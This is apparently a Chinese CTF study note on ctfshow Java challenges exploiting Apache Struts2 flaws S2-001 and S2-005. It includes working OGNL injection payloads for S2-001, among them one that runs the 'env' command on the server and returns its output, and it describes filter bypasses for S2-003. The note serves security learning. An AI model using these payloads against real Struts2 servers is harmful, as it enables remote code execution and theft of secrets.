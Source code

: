 ```yaml
---
title: ctfshow-java
date: 2024-11-15 19:47:20
tags: java
categories: 学习笔记
---
```


看wp说好像ctfshow全是java的Struts2的框架漏洞

Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

**判断网站是否基于Struts2的方法**

- 通过页面回显的错误消息来判断，页面不回显错误消息时则无效
- 通过网页后缀来判断，如.do .action，有可能不准
- 如果配置文件中常数extension的值以逗号结尾或者有空值，指明了action可以不带后缀，那么不带后缀的uri也可能是struts2框架搭建的
- 如果使用Struts2的rest插件，其默认的struts-plugin.xml指定的请求后缀为xhtml,xml和json
  判断 /struts/webconsole.html 是否存在来进行判断，需要 devMode 为 true

## web279（S2-001）

给出提示echo flag

我们看到url也有提示 **S2-001**

![image-20241115195142711](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411151951801.png)

[s2-001](https://www.freebuf.com/column/224041.html)是一个struts2命令执行漏洞编号

漏洞原理

> struts2漏洞 S2-001是当用户提交表单数据且验证失败时，服务器使用OGNL表达式解析用户先前提交的参数值，%{value}并重新填充相应的表单数据。

![1](https://i-blog.csdnimg.cn/blog_migrate/a3223a8c6a4c9cdfa2566cf54f5523e5.gif)

加法表达式`%{1+1}`成功执行

我们了解下OGNL表达式三个符号%,#,$的符号的含义

> - `%`的用途是在标志的属性为字符串类型时，计算OGNL表达式%{}中的值
> - `#`的用途访主要是访问非根对象属性，因为Struts 2中值栈被视为根对象，所以访问其他非根对象时，需要加#前缀才可以调用
> - `$`主要是在Struts 2配置文件中，引用OGNL表达式

payload

```
// 获取tomcat路径
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}

// 获取web路径
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}

// 命令执行 env，flag就在其中
password=%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}&username=1

```



## web280（S2-005）

我们先来了解一下**S2-003**

> Struts2将HTTP的每个参数名解析为ognl语句执行,而ognl表达式是通过#来访问struts的对象，Struts2框架虽然过滤了#来进行过滤，但是可以通过unicode编码（u0023）或8进制（43）绕过了安全限制，达到代码执行的效果
>
> 影响版本：Struts 2.0.0 - Struts 2.0.11.2
>

再看**S2-005**，[参考链接](https://www.freebuf.com/vuls/193078.html)

```
S2-005和S2-003的原理是类似的，因为官方在修补S2-003不全面，导致用户可以绕过官方的安全配置（禁止静态方法调用和类方法执行），再次造成的漏洞，可以说是升级版的S2-005是升级版的S2-003
影响版本：Struts 2.0.0 - Struts 2.1.8.1
```

